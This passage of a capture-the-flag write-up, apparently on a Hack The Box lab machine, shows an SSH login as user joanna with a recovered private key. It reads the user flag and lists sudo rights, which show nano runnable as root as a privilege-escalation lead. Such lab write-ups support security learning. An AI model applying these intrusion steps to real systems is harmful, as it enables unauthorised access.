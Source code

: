 #### SSH

I can connect with that key as joanna:

```

root@kali# ssh -i ~/id_rsa_openadmin_joanna joanna@10.10.10.171
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jan 18 20:41:19 UTC 2020

  System load:  1.15              Processes:             142
  Usage of /:   51.4% of 7.81GB   Users logged in:       1
  Memory usage: 36%               IP address for ens160: 10.10.10.171
  Swap usage:   0%
 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

41 packages can be updated.
12 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Fri Jan 17 23:34:31 2020 from 10.10.14.11
joanna@openadmin:~$

```

### user.txt

With either of these shells as joanna, I can now get `user.txt`:

```

joanna@openadmin:~$ cat user.txt
c9b2cf07************************

```

## Priv: joanna –> root

### Enumeration

Always check `sudo` on HTB, and it pays off here:

```

joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv

```
